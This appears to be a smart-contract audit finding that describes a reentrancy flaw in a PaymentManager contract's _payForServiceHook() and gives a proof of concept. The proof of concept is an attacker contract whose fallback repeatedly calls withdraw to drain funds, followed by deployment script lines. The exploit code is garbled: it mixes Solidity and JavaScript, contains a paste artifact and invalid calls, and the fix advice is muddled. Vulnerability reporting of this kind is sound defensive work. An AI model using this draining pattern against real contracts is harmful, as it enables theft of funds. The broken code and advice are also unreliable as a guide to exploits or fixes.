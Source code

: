 ### Impact ###

The **`_payForServiceHook()`** function uses low-level call functionality which can be used by an attacker to trigger a reentrancy attack and drain the contract's funds.

### **Proof of Concept**

```
solidityCopy code
// create a malicious contract
contract MaliciousContract {
    PaymentManager public paymentManager;
    IDelegationTerms public delegationTerms;
    uint256 public amountToSteal;

    constructor(PaymentManager _paymentManager) {
        paymentManager = _paymentManager;
        delegationTerms = IDelegationTerms(address(this));
        amountToSteal = 1 ether;
    }

    // fallback function to trigger reentrancy attack
    fallback() external payable {
        if (address(paymentManager).balance >= amountToSteal) {
            paymentManager.withdraw({ from: address(delegationTerms) });
        }
    }

    // function to initiate the reentrancy attack
    function attack(IDelegationTerms _delegationTerms) external {
        delegationTerms = _delegationTerms;
        paymentManager.payForService(address(this), amountToSteal);
    }
}

// deploy the PaymentManager contract
let paymentManager = await PaymentManager.deployed();

// create a malicious contract
let maliciousContract = await MaliciousContract.new(paymentManager.address);

// call `_payForServiceHook()` with the malicious contract as the DelegationTerms contract
await paymentManager._payForServiceHook(maliciousContract, 1 ether);

// initiate the reentrancy attack
await maliciousContract.attack(IDelegationTerms(address(this)));

```

### **Recommendations**

To fix this vulnerability, the contract should use the **`call`** method with the **`check-effects-interaction`** pattern to prevent reentrancy attacks. This pattern separates the state-changing operations from the contract calls and allows the contract to complete the state-changing operations before executing the call, preventing reentrancy attacks.
The PaymentManager contract has three functions that could potentially introduce security vulnerabilities.
